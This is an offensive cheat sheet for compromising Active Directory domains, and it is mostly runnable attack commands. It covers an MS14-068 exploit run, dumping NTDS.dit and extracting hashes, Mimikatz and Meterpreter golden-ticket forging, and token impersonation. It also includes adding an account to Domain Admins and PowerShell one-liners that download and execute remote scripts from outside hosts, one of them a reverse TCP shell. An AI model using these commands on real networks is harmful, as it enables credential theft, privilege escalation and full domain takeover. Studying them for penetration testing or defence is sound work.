 # Active Directory Attacks

## Most common paths to AD compromise
  * MS14-068 (Microsoft Kerberos Checksum Validation Vulnerability)
    ```bash
    Exploit Python: https://www.exploit-db.com/exploits/35474/
    Doc: https://github.com/gentilkiwi/kekeo/wiki/ms14068
    Metasploit: auxiliary/admin/kerberos/ms14_068_kerberos_checksum

    git clone https://github.com/bidord/pykek
    python ./ms14-068.py -u <userName>@<domainName> -s <userSid> -d <domainControlerAddr> -p <clearPassword>
    python ./ms14-068.py -u darthsidious@lab.adsecurity.org -p TheEmperor99! -s S-1-5-21-1473643419-774954089-2222329127-1110 -d adsdc02.lab.adsecurity.org
    mimikatz.exe "kerberos::ptc c:\temp\TGT_darthsidious@lab.adsecurity.org.ccache"
    ```
  * MS17-010 (Eternal Blue - Local Admin)
    ```c
    nmap -Pn -p445 — open — max-hostgroup 3 — script smb-vuln-ms17–010 <ip_netblock>
    ```
  * Unconstrained Delegation (incl. pass-the-ticket)
  * OverPass-the-Hash (Making the most of NTLM password hashes)
  * GPO - Pivoting with Local Admin & Passwords in SYSVOL
    ```c
    findstr /S /I cpassword \\<FQDN>\sysvol\<FQDN>\policies\*.xml

    or

    Metasploit: scanner/smb/smb_enumshares
    Metasploit: windows/gather/enumshares
    Metasploit: windows/gather/credentials/gpp


    /!\ GPO Priorization : Organization Unit > Domain > Site > Local
    List all GPO for a domain :
    Get-GPO -domaine DOMAIN.COM -all
    Get-GPOReport -all -reporttype xml --all
    ```
  * Dangerous Built-in Groups Usage

  * Dumping AD Domain Credentials (%SystemRoot%\NTDS\Ntds.dit)
  ```c
  C:\>ntdsutil
  ntdsutil: activate instance ntds
  ntdsutil: ifm
  ifm: create full c:\pentest
  ifm: quit
  ntdsutil: quit

  or

  vssadmin create shadow /for=C :
  Copy Shadow_Copy_Volume_Name\windows\ntds\ntds.dit c:\ntds.dit

  then you need to use secretsdump to extract the hashes
  secretsdump.py -ntds ntds.dit -system SYSTEM LOCAL


  or

  Metasploit : windows/gather/credentials/domain_hashdump

  or

  PowerSploit : Invoke-NinjaCopy --path c:\windows\NTDS\ntds.dit --verbose --localdestination c:\ntds.dit
  ```
  * Golden Tickets    
  Mimikatz version
  ```c
  Get info - Mimikatz
  lsadump::dcsync /user:krbtgt
  lsadump::lsa /inject /name:krbtgt

  Forge a Golden ticket - Mimikatz
  kerberos::golden /user:evil /domain:pentestlab.local /sid:S-1-5-21-3737340914-2019594255-2413685307 /krbtgt:d125e4f69c851529045ec95ca80fa37e /ticket:evil.tck /ptt
  kerberos::tgt
  ```

  Meterpreter version
  ```c
  Get info - Meterpreter(kiwi)
  dcsync_ntlm krbtgt
  dcsync krbtgt

  Forge a Golden ticket - Meterpreter
  load kiwi
  golden_ticket_create -d <domainname> -k <nthashof krbtgt> -s <SID without le RID> -u <user_for_the_ticket> -t <location_to_store_tck>
  golden_ticket_create -d pentestlab.local -u pentestlabuser -s S-1-5-21-3737340914-2019594255-2413685307 -k d125e4f69c851529045ec95ca80fa37e -t /root/Downloads/pentestlabuser.tck
  kerberos_ticket_purge
  kerberos_ticket_use /root/Downloads/pentestlabuser.tck
  kerberos_ticket_list
  ```
  * Kerberoast
    ```c
    https://powersploit.readthedocs.io/en/latest/Recon/Invoke-Kerberoast/
    https://room362.com/post/2016/kerberoast-pt1/
    ```
  * Silver Tickets
  * Trust Tickets


## Tools
  * [Impacket](https://github.com/CoreSecurity/impacket)
  * Responder
  * Mimikatz
  * [Ranger](https://github.com/funkandwagnalls/ranger)
  * BloodHound
  * RottenPotato
  * [AdExplorer](https://docs.microsoft.com/en-us/sysinternals/downloads/adexplorer)

## PowerSploit
```
https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon
powershell.exe -nop -exec bypass -c “IEX (New-Object Net.WebClient).DownloadString('http://10.11.0.47/PowerUp.ps1'); Invoke-AllChecks”
powershell.exe -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://10.10.10.10/Invoke-Mimikatz.ps1');"
```


## PrivEsc - Token Impersonation (RottenPotato)
Binary available at : https://github.com/foxglovesec/RottenPotato      
Binary available at : https://github.com/breenmachine/RottenPotatoNG   
```c
getuid
getprivs
use incognito
list\_tokens -u
cd c:\temp\
execute -Hc -f ./rot.exe
impersonate\_token "NT AUTHORITY\SYSTEM"
```

```
Invoke-TokenManipulation -ImpersonateUser -Username "lab\domainadminuser"
Invoke-TokenManipulation -ImpersonateUser -Username "NT AUTHORITY\SYSTEM"
Get-Process wininit | Invoke-TokenManipulation -CreateProcess "Powershell.exe -nop -exec bypass -c \"IEX (New-Object Net.WebClient).DownloadString('http://10.7.253.6:82/Invoke-PowerShellTcp.ps1');\"};"
```


## PrivEsc - MS16-032 - Microsoft Windows 7 < 10 / 2008 < 2012 R2 (x86/x64)
```
Powershell:
https://www.exploit-db.com/exploits/39719/
https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Invoke-MS16-032.ps1

Binary exe : https://github.com/Meatballs1/ms16-032

Metasploit : exploit/windows/local/ms16_032_secondary_logon_handle_privesc
```


## Local Admin to Domain Admin
```
net user hacker2 hacker123 /add /Domain
net group "Domain Admins" hacker2 /add /domain
```


## Thanks to
 * [https://chryzsh.gitbooks.io/darthsidious/content/compromising-ad.html](https://chryzsh.gitbooks.io/darthsidious/content/compromising-ad.html)
 * [Top Five Ways I Got Domain Admin on Your Internal Network before Lunch (2018 Edition) - Adam Toscher](https://medium.com/@adam.toscher/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa)
 * [Road to DC](https://steemit.com/infosec/@austinhudson/road-to-dc-part-1)
 * [Finding Passwords in SYSVOL & Exploiting Group Policy Preferences](https://adsecurity.org/?p=2288)
 * [Golden ticket](https://pentestlab.blog/2018/04/09/golden-ticket/)
